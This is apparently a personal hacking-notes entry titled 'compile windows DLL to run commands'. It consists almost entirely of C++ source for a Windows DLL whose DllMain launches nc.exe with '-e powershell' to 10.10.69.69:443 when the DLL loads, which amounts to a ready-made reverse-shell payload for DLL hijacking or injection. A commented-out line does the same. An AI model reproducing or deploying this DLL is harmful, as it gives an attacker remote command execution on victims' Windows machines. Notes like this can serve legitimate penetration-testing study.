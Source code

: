 # compile windows DLL to run commands DLL code
```cpp
#include <windows.h>

BOOL WINAPI DllMain(
  HINSTANCE hinstDLL,  // handle to DLL module
  DWORD fdwReason,     // reason for calling function
  LPVOID lpReserved )  // reserved
{
  switch( fdwReason ) // Perform actions based on the reason for calling.
  {
    case DLL_PROCESS_ATTACH: // Initialize once for each new process.  Return FALSE to fail DLL load.
      WinExec("c:\\windows\\tasks\\nc.exe 10.10.69.69 443 -e powershell", 0);
      //system("c:\\windows\\tasks\\nc.exe 10.10.69.69 443 -e powershell");
      break;

    case DLL_THREAD_ATTACH: // Do thread-specific initialization.
    case DLL_THREAD_DETACH: // Do thread-specific cleanup.
    case DLL_PROCESS_DETACH: // Perform any necessary cleanup.
      break;
  }
  return TRUE;  // Successful DLL_PROCESS_ATTACH.
}
```

# References
- [20221003151106](/zet/20221003151106/README.md) compile windows DLL to run commands
- [20221003151104](/zet/20221003151104/README.md) compile windows DLL to run commands DLL code building with mingw
- ~/kb/hacking/windows/dll-to-run-commands.md

Tags:
    #assorted #command
